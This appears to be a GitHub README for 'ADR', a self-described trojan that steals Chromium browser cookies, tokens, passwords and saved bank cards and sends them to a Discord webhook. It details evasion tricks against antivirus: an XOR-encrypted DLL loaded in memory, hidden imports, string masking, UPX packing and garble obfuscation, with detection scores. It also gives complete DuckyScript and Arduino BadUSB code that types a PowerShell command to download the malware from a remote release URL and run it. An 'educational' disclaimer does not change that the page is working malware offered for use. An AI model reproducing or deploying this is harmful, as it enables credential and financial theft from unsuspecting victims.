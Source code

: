 # ADR 💥

ADR is a trojan that retrieves all information on the computer and all data stored in applications using chormium. It recovers cookies, tokens, passwords and saved bank cards. This malware is undetectable by Windows Defender, Chrome, Virustotal (~8/72).

> ⚠️ This project has a strictly educational objective. It aims to provide information, advice and resources in an educational context. I want to emphasize that I do not support or encourage any malicious or damaging use of this information. Any negative or abusive interpretation goes against the educational intent of this project. As the creator of this content, I accept no responsibility for any misuse that may arise from its use.


## loader

The loader is the entry program that will load ADR (the DLL that contains the malware).
The loader downloads the DLL online, this DLL is encrypted in XOR so as not to be detected by the antivirus. The DLL is then decoded and then injected into the memory of the process to execute the "main" function.

- download the DLL encode in XOR
- decode the XOR
- loading the DLL into memory (without using LoadLibraryA)
- execution of the "main" function of the ADR malware

The loader uses a few tricks to avoid being detected by anti-viruses, in particular:

- hiding suspicious functions using LoadLibrary and GetProcAddress (so imports are hidden and not visible in the executable)
- the masking of character strings, the url at which the payload is located, encrypt in XOR so as not to be readable in the executable directly
- optimization of compiler parameters and compression with UPX
- to make it possible to hide the imports even more, if we do not have an executable heavier in KB, we can change the Runtime Library. Indeed, switching from Multi-threaded DLL mode (/MD) to Multi-threaded mode (/MT) hides all imports (with UPX). However, it takes about 40 KB more than the Multi-threaded DLL version.

## payload

The payload is compiled in DLL, encoded in XOR, then uploaded to a server to be loaded later by the loader.
the main function is the entry point of the malware, this function aims to:

- scan Windows AppData folder for folder using Chromium file structure
- recover all cookies, tokens, passwords, local state, credit card, history and autocompletion
- find all the information on the machine used
  - MAC Address
  - Public IP
  - Processor
  - Architecture
  - Storage
  - Local Time
  - Language
  - Machine Name
- all this data is then compressed into a Zip file which will be sent to a discord webhook (obviously this data can be sent to any public server or webhook).

## go loader

go loader is the Golang version of the loader. With this version we reached the score of 4/71 detection on virustotal. This results and largely due to the obfuscator: garble, which allowed this incredible result. The golang code does not change much from the C version, loading the DLL into memory reuses the C code from the loader and is compiled with CGO.

> why no compression with UPX?

gARD will not decompress with UPX because it is much more detectable with compression enabled. The goloader.exe pyaload is therefore heavier (5 MB).

> Compile with Garble

```cmd
@REM install it: go install mvdan.cc/garble@latest
@REM build:

build.bat
```

## AntiVirus Detection

|     Name      |                         ✅                         |                         ❌                         |          ❔           |
| :-----------: | :------------------------------------------------: | :------------------------------------------------: | :-------------------: |
| payload (xor) | Windows Defender, Chrome AV, Manalyzer, Virustotal |                                                    |                       |
| pyload (dll)  |                         -                          | Virustotal, Windows Defender, Chrome AV, Manalyzer |           -           |
| loader (exe)  |            Windows Defender, Chrome AV             |                         -                          | Virustotal, Manalyzer |
|  loader (go)  |            Windows Defender, Chrome AV             |                Virustotal,Manalyzer                |           -           |

## UPX Compression

ADR files are compressed with UPX to reduce the size of the payload.

|     Name     | Runtime Lib |  Size  | Compressed Size |
| :----------: | :---------: | :----: | :-------------: |
| pyload (dll) |     /MD     | 15 ko  |      10 ko      |
| loader (exe) |     /MT     | 114 ko |      54 ko      |
| loader (exe) |     /MD     | 17 ko  |     10.5 ko     |



## Bonus BadUSB

**Digispark Rev.3 Kickstarter with Attiny85 and USB compatible with Arduino**

You can buy it [here](https://www.az-delivery.de/en/products/digispark-board).

> DuckyScript

```
DELAY 1000
GUI r
DELAY 200
STRING powershell -command "(New-Object Net.WebClient).DownloadFile('https://github.com/julesgrc0/ADR/releases/download/0.0.3/bADR.exe','%userprofile%\ADR.exe');(New-Object -com shell.application).shellexecute('%userprofile%\ADR.exe');exit"
ENTER
```

> Arduino C/C++ Code

```cpp
#include "Keyboard.h"

void typeKey(uint8_t key)
{
  Keyboard.press(key);
  delay(50);
  Keyboard.release(key);
}


void setup()
{
  Keyboard.begin();
  delay(500);

  delay(1000);
  Keyboard.press(KEY_LEFT_GUI);
  Keyboard.press('r');
  Keyboard.releaseAll();

  delay(200);
  Keyboard.print(F("powershell -command \"(New-Object Net.WebClient).DownloadFile('https://github.com/julesgrc0/ADR/releases/download/0.0.3/bADR.exe','%userprofile%\\ADR.exe');(New-Object -com shell.application).shellexecute('%userprofile%\\ADR.exe');exit\""));

  typeKey(KEY_RETURN);

  Keyboard.end();
}

void loop() {}
```
